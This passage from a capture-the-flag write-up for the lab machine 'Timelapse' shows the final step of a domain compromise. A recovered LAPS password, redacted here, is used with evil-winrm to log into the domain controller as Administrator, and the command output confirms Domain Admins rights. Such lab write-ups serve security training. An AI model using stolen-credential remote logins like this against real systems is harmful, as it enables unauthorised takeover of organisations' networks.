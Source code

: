 Nice! We found a LAPS password!

Now, we can WinRM into the Domain Controller's local `Administrator`, who is also a Domain Admins!

**Login as `Administrator` via `evil-winrm`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|18:14:49(HKT)]
└> evil-winrm -S -i $RHOSTS -u Administrator -p '{Redacted}'
[...]
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami; ipconfig /all
timelapse\administrator

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc01
   Primary Dns Suffix  . . . . . . . : timelapse.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : timelapse.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-7B-4A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4113:1f9:543d:6321%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.152(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 33574998
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-65-68-F0-00-50-56-B9-7B-4A
   DNS Servers . . . . . . . . . . . : 127.0.0.1
[...]
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                       Type             SID                                         Attributes
================================================ ================ =========================================== ===============================================================
Everyone                                         Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                           Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                    Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access       Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                             Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                 Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                   Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
TIMELAPSE\Group Policy Creator Owners            Group            S-1-5-21-671920749-559770252-3318990721-520 Mandatory group, Enabled by default, Enabled group
TIMELAPSE\Domain Admins                          Group            S-1-5-21-671920749-559770252-3318990721-512 Mandatory group, Enabled by default, Enabled group
TIMELAPSE\Enterprise Admins                      Group            S-1-5-21-671920749-559770252-3318990721-519 Mandatory group, Enabled by default, Enabled group
```